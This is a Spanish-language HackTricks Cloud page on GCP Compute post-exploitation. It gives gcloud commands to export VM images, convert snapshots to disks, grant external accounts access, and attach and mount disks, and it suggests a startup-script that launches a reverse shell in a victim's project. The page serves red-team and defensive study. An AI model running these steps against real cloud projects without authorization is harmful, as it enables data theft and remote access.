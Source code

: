 # GCP - Compute Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

Para más información sobre Compute y VPC (Redes) consulta:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Exportar e Inspeccionar Imágenes localmente

Esto permitiría a un atacante **acceder a los datos contenidos dentro de imágenes ya existentes** o **crear nuevas imágenes de VMs en ejecución** y acceder a sus datos sin tener acceso a la VM en ejecución.

Es posible exportar una imagen de VM a un bucket y luego descargarla y montarla localmente con el comando:

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Para realizar esta acción, el atacante podría necesitar privilegios sobre el bucket de almacenamiento y, por supuesto, **privilegios sobre cloudbuild**, ya que es el **servicio** que se va a solicitar para realizar la exportación.\
Además, para que esto funcione, el SA de codebuild y el SA de compute necesitan permisos privilegiados.\
El SA de cloudbuild `<project-id>@cloudbuild.gserviceaccount.com` necesita:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

Y el SA `<project-id>-compute@developer.gserviceaccount.com` necesita:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### Exportar e Inspeccionar Instantáneas y Discos localmente

No es posible exportar instantáneas y discos directamente, pero es posible **transformar una instantánea en un disco, un disco en una imagen** y, siguiendo la **sección anterior**, exportar esa imagen para inspeccionarla localmente.

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Inspeccionar una imagen creando una VM

Con el objetivo de acceder a los **datos almacenados en una imagen** o dentro de una **VM en ejecución** desde donde un atacante **ha creado una imagen,** es posible otorgar acceso a una cuenta externa sobre la imagen:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
y luego crear una nueva VM a partir de ella:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
Si no pudiste dar acceso a tu cuenta externa a través de la imagen, podrías lanzar una VM usando esa imagen en el proyecto de la víctima y **hacer que los metadatos ejecuten un shell inverso** para acceder a la imagen añadiendo el parámetro:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Inspeccionar un Snapshot/Disk adjuntándolo a una VM

Con el objetivo de acceder a los **datos almacenados en un disco o un snapshot, podrías transformar el snapshot en un disco, un disco en una imagen y seguir los pasos anteriores.**

O podrías **otorgar acceso a una cuenta externa** sobre el disco (si el punto de partida es un snapshot, otorgar acceso sobre el snapshot o crear un disco a partir de él):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Adjuntar el disco** a una instancia:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Montar el disco dentro de la VM:

1.  **SSH en la VM**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **Identificar el Disco**: Una vez dentro de la VM, identifica el nuevo disco listando los dispositivos de disco. Típicamente, puedes encontrarlo como `/dev/sdb`, `/dev/sdc`, etc.
3. **Formatear y Montar el Disco** (si es un disco nuevo o en bruto):
*   Crear un punto de montaje:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   Montar el disco:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

Si **no puedes dar acceso a un proyecto externo** a la instantánea o disco, es posible que necesites **realizar estas acciones dentro de una instancia en el mismo proyecto que la instantánea/disco**.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
